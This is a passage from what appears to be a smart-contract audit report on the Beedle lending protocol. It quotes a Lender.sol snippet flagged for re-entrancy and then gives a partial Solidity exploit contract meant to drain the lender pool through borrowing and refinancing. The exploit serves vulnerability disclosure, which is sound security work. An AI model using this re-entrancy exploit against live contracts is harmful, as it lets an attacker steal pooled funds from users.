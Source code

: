 ```solidity
File: Lender.Sol

L647:	} else if (debtToPay < debt) {
 		// we have excess loan tokens so we give some back to the borrower
		// first we take our borrower fee
		uint256 fee = (borrowerFee * (debt - debtToPay)) / 10000;
		IERC20(loan.loanToken).transfer(feeReceiver, fee);
		// transfer the loan tokens from the contract to the borrower
		IERC20(loan.loanToken).transfer(msg.sender, debt - debtToPay - fee); // @audit - Re-entrancy can drain pool
	}
```
https://github.com/Cyfrin/2023-07-beedle/blob/658e046bda8b010a5b82d2d85e824f3823602d27/src/Lender.sol#L653


## Impact
### POC
An attacker can use the following exploit contract to drain the `lender` contract:
```solidity
File: Exploit2.sol

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

import {WeirdToken} from "./WeirdToken.sol";
import {ERC20} from "openzeppelin-contracts/contracts/token/ERC20/ERC20.sol";
import "../utils/Structs.sol";
import "../Lender.sol";

contract Exploit2  {
    Lender lender;
    address loanToken;
    address collateralToken;
    bool borrowed;
    Refinance refinance;
    uint256 i;

    constructor(Lender _lender, address _loanToken, address _collateralToken) {
        lender = _lender;
        loanToken = _loanToken;
        collateralToken = _collateralToken;
    }

    function attack(bytes32 _poolId, uint256 _debt, uint256 _collateral, uint256 _loanId, uint256 _newDebt) external {
        // [1] Borrow a new loan
        ERC20(collateralToken).approve(address(lender), _collateral);
        Borrow memory b = Borrow({
            poolId: _poolId,
            debt: _debt,
            collateral: _collateral
        });
        Borrow[] memory borrows = new Borrow[](1);
        borrows[0] = b;        
        lender.borrow(borrows);
        borrowed = true;
        // [2] Refinance the loan with a higher amount of debt
        refinance = Refinance({
            loanId: _loanId,
            poolId: _poolId,
            debt: _newDebt,
```